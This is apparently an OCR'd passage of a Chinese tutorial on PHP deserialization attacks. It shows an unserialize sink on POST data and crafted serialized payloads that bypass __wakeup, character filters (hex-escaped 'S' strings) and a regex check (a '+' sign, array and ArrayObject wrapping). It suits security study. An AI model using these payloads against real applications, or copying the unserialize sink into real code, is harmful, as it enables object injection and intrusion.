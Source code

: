 ```php

unserialize($_POST['data']);

```

`private $end = "1";`

`[POST]data=O:1:"A":2:{s:4:"info";O:1:"B":1:{s:3:"end";N;}s:6:"Aend";s:1:"1";}`

这里的`s:6:"Aend"`实际上就是`Aend`这四个字符，不加`\0类名\0`，从而破坏反序列化的结构

从而绕过wakeup



### 16进制绕过字符过滤

```php
O:4:"test":2:{s:4:"%00*%00a";s:3:"abc";s:7:"%00test%00b";s:3:"def";}
可以写成
O:4:"test":2:{S:4:"\00*\00\61";s:3:"abc";s:7:"%00test%00b";s:3:"def";}
表示字符类型的s大写时，会被当成16进制解析。
```



### 绕过部分正则

`preg_match('/^O:\d+/')`匹配序列化字符串是否是对象字符串开头

#### 利用加号绕过

> 注意在url里传参时+要编码为%2B

```php
$a = 'O:4:"test":1:{s:1:"a";s:3:"abc";}'; //+号绕过 
$b = str_replace('O:4','O:+4', $a);
// O:+4:"test":1:{s:1:"a";s:3:"abc";}'
```

#### serialize( array( a) );

a为要反序列化的对象（序列化结果开头是a，不影响作为数组元素的$a的析构）



```php
// 修改serialize($a);为
serialize(array($a));
unserialize('a:1:{i:0;O:4:"test":1:{s:1:"a";s:3:"abc";}}');
```



除此之外，还可以

`$oa=new ArrayObject($a);`(php 7.3.4)

会生成以C开头的序列化数据，同时正常反序列化也可以绕过`__wakeup()`

```
ArrayObject::unserialize
ArrayIterator::unserialize
RecursiveArrayIterator::unserialize
SplObjectStorage::unserialize
```









[参考](https://xz.aliyun.com/news/16664#/)；[参考](https://forum.butian.net/index.php/share/3007#/)

